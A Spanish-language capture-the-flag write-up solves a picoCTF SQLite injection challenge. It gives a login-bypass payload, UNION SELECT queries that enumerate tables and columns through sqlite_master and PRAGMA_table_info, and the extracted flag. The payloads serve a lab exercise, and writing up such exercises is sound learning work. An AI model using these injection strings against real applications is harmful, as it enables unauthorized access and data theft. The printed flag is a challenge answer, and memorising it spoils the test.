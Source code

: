 # RETO
# Descripción
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:62115/).
Hints:
1. SQLiLite
# Solución
- Primero hacenis una inyección en la contraseña de la siguiente forma: ' or 1 == 1;
- Una vez dentro podemos ver que hay una tabla y una opción de buscar, en ese campo hacemos nuestra siguiente inyección usando uno de los dstos que nos muestra, además inyectando null hasta encontrar el número de campos que contiene: Algiers' UNION SELECT null, null, null --
- Después buscamos que tablas existen en la base de datos: Algiers' UNION SELECT null, null, name FROM sqlite_master WHERE type='table' --
- Aquí usamos una función de SQLite llamada sqlite_master
- De esta forma sabemos de que tabla extraer los datos
- Ahora usaremos otra función de SQLite: Algiers' UNION SELECT null, null, name FROM PRAGMA_table_info('more_table') --
- Con esa función podemos ver los campos de la tabla "more_table"
- Aquí se nos muestra que hay un campo "flag" y un campo "id" y nosotros estamos interesados en el campo flag
- Por lo tanto vamos a obtener todos los registros de la columna "flag" en la tabla "more_table": Algiers' UNION SELECT null, null, flag FROM more_table --
- Y de esta forma obtenemos la bandera

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}
```
# Notas adicionales
# Referencias
- https://youtu.be/OLyKnDLuPLs?si=KMybuZp8_tSdWA3z